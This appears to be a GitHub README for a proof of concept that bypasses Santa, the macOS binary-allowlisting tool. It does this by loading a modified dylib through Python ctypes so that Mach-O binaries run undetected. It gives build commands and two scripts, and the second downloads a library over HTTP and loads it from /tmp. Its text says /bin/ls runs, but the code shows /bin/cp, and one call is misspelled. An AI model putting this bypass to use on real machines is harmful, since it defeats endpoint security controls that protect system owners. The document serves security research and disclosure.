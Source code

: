 # santa bypass poc

See my [blog post](https://blog.coffinsec.com/research/2019/01/08/OSX-naughtiness-bypassing-santa.html) here for a full walkthrough.

This PoC uses the concept of library injection but without the need for an injectable binary. Instead, the library is loaded using Python's `ctypes` module. The library uses code taken from [prior research](https://threatvector.cylance.com/en_us/home/running-executables-on-macos-from-memory.html) by Stephanie Archibald that was slightly modified to work in this context. Put together, this allows me to execute Mach-O binaries without Santa knowing. The PoC code below shows two ways this can be used. 


## Build

Build `runbin_mod.c` using the commands below:

```
gcc -o runbin_mod.os -c -Wall -fPIC runbin_mod.c
gcc -o rlm.dylib -dynamiclib runbin_mod.os
```

## PoC1

```py
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
import ctypes
if '__main__' == __name__:
  mylib = ctypes.cdll.LoadLibrary("rlm.dylib")
  mylib.launch("/bin/cp")
```

The output below shows `/bin/ls` successfully executing through our script and library. This execution is not detected by Santa.

```
$ python poc.py 
usage: cp [-R [-H | -L | -P]] [-fi | -n] [-apvXc] source_file target_file
       cp [-R [-H | -L | -P]] [-fi | -n] [-apvXc] source_file ... target_directory
```


## PoC2
Download the dylib from a remote server

```py
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
import requests, ctypes
if '__main__' == __name__:
  r = requests.get("http://localhost:8080/rlm.dylib")
  r.raise_for_status()
  f = open("/tmp/lib", "wb")
  f.write(bytes(r.content))
  f.seek(0)
  mylib = ctypes.cdll.loadlibrary(f.name)
  mylib.launch("/bin/cp")

```
